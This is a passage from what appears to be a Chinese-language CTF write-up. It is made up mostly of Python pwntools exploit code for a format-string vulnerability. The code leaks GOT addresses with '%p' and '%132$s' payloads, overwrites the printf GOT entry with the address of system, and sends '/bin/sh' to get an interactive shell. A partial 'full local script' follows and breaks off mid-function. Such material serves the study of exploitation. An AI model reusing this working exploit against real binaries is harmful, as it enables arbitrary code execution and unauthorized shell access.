 ```python
val1 = int(np.uint8(system_addr))
print "%x" % (val1)
val2 = int(np.uint8(system_addr >> 8))
print "%x" % (val2)
val3 = int(np.uint8(system_addr >> 16))
print "%x" % (val3)

sorted_idx = sort_get_idx([val1, val2, val3])
print sorted_idx
sorted_val = sorted([val1, val2, val3])
print sorted_val

pld = set_got_addr_payload(sorted_val[0], sorted_val[1] - sorted_val[0], sorted_val[2] - sorted_val[1], \
    GOT_PLT_ADDR + sorted_idx[0], GOT_PLT_ADDR + sorted_idx[1], GOT_PLT_ADDR + sorted_idx[2])
```
最后

```python
proc.sendline(pld)
proc.recvrepeat(1)
proc.sendline("/bin/sh")
proc.interactive()
```
![](https://i.loli.net/2019/07/22/5d357f0436da259976.png)
如果遇到了 `EOFError` ，重新执行脚本应该可以解决问题。
完整本地脚本：

```python
from pwn import *    
import struct
import numpy as np

GOT_PLT_ADDR = 0x601030 # printf

def pad(s):
    return s + "X"*(1000 - len(s) - 8)

def pad2(s):
    return s + "X"*(1000 - len(s) - 24)

def calc_offset_payload():
    pl = ""
    pl += "AAAAAAAA" 
    pl += "|%p|" * 150
    pl = pad(pl)
    pl += struct.pack("Q", GOT_PLT_ADDR) 
    return pl

def get_got_addr_payload(i):
    pl = ""
    pl += "AAAAAAAA" 
    pl += "%132$s"
    pl = pad(pl)
    pl += struct.pack("Q", GOT_PLT_ADDR + i) 
    return pl

def get_got_addr(proc):
    got_addr = list("")
    for i in range(0, 8): 
        pld = get_got_addr_payload(i)
        proc.sendline(pld)
        rec = proc.recv() 
        #print rec
```